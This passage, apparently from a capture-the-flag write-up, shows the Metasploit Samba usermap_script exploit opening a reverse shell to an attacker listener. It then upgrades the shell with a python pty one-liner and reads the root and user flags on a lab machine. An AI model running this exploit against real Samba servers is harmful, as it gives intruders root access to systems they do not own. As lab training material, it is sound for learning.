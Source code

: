 ```
Exploit target:

   Id  Name
   --  ----
   0   Automatic

```

When I run this, it shows me that shell session opened, and then just sits at an empty line. But if I type commands into that line, I get results:

```

msf5 exploit(multi/samba/usermap_script) > run

[*] Started reverse TCP double handler on 10.10.14.24:443 
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo zchdJVWjFG8sP3T3;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "zchdJVWjFG8sP3T3\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 1 opened (10.10.14.24:443 -> 10.10.10.3:37959) at 2019-02-28 08:52:31 -0500

‍id
uid=0(root) gid=0(root)

```

### Shell as Root

With a shell via any of these methods, I can use `python` and `pty` to get a nicer shell:

```

‍python -c 'import pty; pty.spawn("bash")'
root@lame:/#

```

And then get the flags:

```

root@lame:/home# find . -name user.txt -exec cat {} \;
69454a93************************

root@lame:/root# cat root.txt
92caac3b************************

```
